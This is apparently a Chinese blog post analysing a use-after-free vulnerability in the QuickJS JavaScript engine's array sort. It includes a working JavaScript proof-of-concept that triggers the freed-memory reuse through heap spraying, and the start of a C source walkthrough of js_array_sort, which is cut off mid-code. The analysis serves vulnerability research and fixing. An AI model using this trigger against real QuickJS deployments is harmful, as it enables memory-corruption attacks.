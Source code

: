```yaml
---
title: "Quickjs UAF漏洞分析，利用以及修复"
date: 2019-08-01T21:47:00+11:00
summary: Quickjs是一个轻量的js引擎，先放张benchmark。可以看到作为一个轻量的js引擎，Quickjs是十分优秀的。在评分上甚至和Hermes这种重型js引擎并驾齐驱。虽然和v8相比还是有不小差距，但是毕竟是一个人开发的，而且相比v8，Quickjs才620kb。
draft: false
---
```


## 0x01 介绍

[Quickjs](https://bellard.org/quickjs/)是一个轻量的js引擎，先放张benchmark。可以看到作为一个轻量的js引擎，Quickjs是十分优秀的。在评分上甚至和Hermes这种重型js引擎并驾齐驱。虽然和v8相比还是有不小差距，但是毕竟是一个人开发的，而且相比v8，Quickjs才620kb。

![](https://i.imgur.com/xBWtj3e.png) 

具体特性这里就不讲了，有兴趣的可以去Quickjs的作者网站 https://bellard.org/quickjs/， 了解Quickjs的更多特性的同时， 也顺便膜拜一下大神。

之所以写这篇文章还是因为偶像的一个微博。

![](https://i.imgur.com/1MBnEvT.png)

接下来通过对POC和Quickjs的源码进行分析，看看这个漏洞到底是如何产生的，以及如何利用和修复。

## 0x02 POC

```js=
let spray = new Array(100);
let a = [{hack:0},1,2,3,4]; // 在heap上分配内存给{hack:0}, a[0]指向相对应的对象在堆中的地址
let refcopy = [a[0]]; // refcopy指向{hack:0}
// 抛出异常
a.__defineSetter__(3,()=>{throw 1;}); 
// 下面的排序会触发异常抛出，具体如何触发下文会有介绍
try {
	a.sort(function(v){if (v == a[0]) return 0; return 1;}); 
}
catch (e){}
a[0] = 0; // 对象{hack：0}的引用减少1,小于等于0,导致内存被收回
for (let i=0; i<100; i++) spray[i] = [13371337]; // 覆盖被释放的内存
console.log(refcopy[0]); // 13371337
```
通过代码可以看出，这是一个典型的uaf（use after free）攻击。 通过array sorting的漏洞，导致引用没有正确释放，从而使攻击者可以使用这个引用访问已经被释放的内存。接下来通过对Quickjs的源码分析，看看到底是什么原因导致这个漏洞。

## 0x03 源码分析

在Quickjs的源码里，我认为有三个函数对于理解这个漏洞是非常重要的，他们分别是js_array_sort， JS_TryGetPropertyInt64， JS_FreeValue。其中后面两个函数将会被js_array_sort调用。 下面将对这三个函数进行具体分析。


首先是最重要的js_array_sort，漏洞就是出现在这个函数里面。
```c=
static JSValue js_array_sort(JSContext *ctx, JSValueConst this_val,
                             int argc, JSValueConst *argv)
{
    ...

    /* XXX: should special case fast arrays */
    for (i = 0; i < len; i++) {
        if (pos >= array_size) {
            size_t new_size, slack;
            ValueSlot *new_array;
            new_size = (array_size + (array_size >> 1) + 31) & ~15;
            // 分配新的内存空间给一个临时队列，用于排序
```